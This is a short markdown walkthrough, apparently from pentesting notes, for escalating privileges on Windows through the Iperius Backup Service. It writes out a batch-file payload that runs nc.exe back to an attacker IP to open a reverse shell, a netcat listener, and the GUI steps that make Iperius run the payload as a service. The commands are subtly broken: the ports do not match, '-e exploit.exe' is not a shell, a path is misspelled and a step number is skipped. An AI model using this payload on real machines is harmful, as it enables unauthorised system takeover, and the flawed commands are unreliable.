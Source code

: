```yaml
---
title: Iperius Backup Service Privilege Escalation
description: Iperius Backup Service is a database backup software. It is vulnerable to privilege escalation in Windows.
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2023-02-08
draft: false
---
```



## Investigation

First check if Iperius is running in target machine.

```powershell
wmic service list | findstr "Iperius"
```

If the Iperius service is running, we can gain access to administrator privilege.

<br />

## Exploitation

### 1. Create a Payload

In target machine, create a **.bat** file named "exploit.bat".

```powershell
@echo off
C:\Users\<USERNAME>\Downloads\nc.exe <attack_machine_ip> 1337 -e exploit.exe
```

Then place it to Desktop.  
When saving, be sure to save it as the file type **"All Files"** (**NOT .txt**).


After that start a listener in local machine.

```sh
nc -lvnp 4444
```

### 2. Create a New Backup in Iperius**

1. Click **"Iperius"** icon in Windows Explorer (the common path is **C:\Program Files (x86)\Iperius Backup\Iperius**).
2. Right click the **"Iperius"** icon on the right-bottom of the bar to open it.
3. Click **"Create New Backup"** and select **"Add Folder"**.
4. Enter path (**c:\Users\\<USERNAME\>\Documents**) and click **"OK"**.
5. Navigate to **"Destination"** tab and select **"Add Destination Folder"**.
7. Enter path (**c:\Users\\<USERNAME\>\Descktop**) and click **"OK"**.
8. Navigate to **"Other Processes"** tab.
9. On **"Before backup"** section, check **"Run a program or open external file:"** and select **"exploit.bat"** file.

### 3. Run the Backup

After setting a new backup, we can run it.  
On **"Iperius Backup"** window, right-click on backup jobs **"Documents"** and select **"Run backup as service"** then click **"OK"** on the dialog.

Now we should get a shell in local machine.
